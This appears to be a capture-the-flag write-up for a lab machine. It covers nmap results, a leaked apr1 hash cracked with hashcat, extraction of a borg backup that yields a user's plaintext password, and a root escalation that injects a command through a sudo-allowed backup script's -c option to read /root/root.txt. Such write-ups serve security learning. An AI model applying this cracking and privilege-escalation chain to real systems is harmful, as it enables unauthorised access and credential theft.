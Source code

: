 # Write up

## Help

### Enumeration
#### Nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


### Info
Potential username: `alex`

Admin section:
```
 ############################################
                ############################################
                [Yesterday at 4.32pm from Josh]
                Are we all going to watch the football game at the weekend??
                ############################################
                ############################################
                [Yesterday at 4.33pm from Adam]
                Yeah Yeah mate absolutely hope they win!
                ############################################
                ############################################
                [Yesterday at 4.35pm from Josh]
                See you there then mate!
                ############################################
                ############################################
                [Today at 5.45am from Alex]
                Ok sorry guys i think i messed something up, uhh i was playing around with the squid proxy i mentioned earlier.
                I decided to give up like i always do ahahaha sorry about that.
                I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
                Might pass it over to the IT guys but in the meantime all the config files are laying about.
                And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
                other than that im pretty sure my backup "music_archive" is safe just to confirm.
                ############################################
                ############################################
```

### ETC directory
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn. :: squidward

File: music_archive.tar


### Credential: 
music_archive
alex:S3cretP@s3

## keys word
- `Crack hash`
- `backup borg`
- `bash file priv`
- `tar`
## Links
- [[Cryptography]]
- [[Pentesting]]

## Tools
- [[Nmap]]
- [[dirb]]
- https://www.onlinehashcrack.com/hash-identification.php
- [[hashcat]]

## Exploit
### Crack the hash
command: `hascat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt`=> squidward
### Extract backup
command : `borg extract --list final_archive::music_archive 

### Find password for alex
command : `cat Documents/note.txt ` => S3cretP@s3

## Escalate privilege
### Sudo -l
`nopasswd /etc/mp3backup/backup.sh`

### Get root flag
#### Bash file
##### Interesting function
- getopts
- cmd 

We see getopts take `c` option and store it in variable `command` wich wiil be execute by `cmd` => `sudo /etc/mp3backup/backup.sh -c cat /root/root.txt` 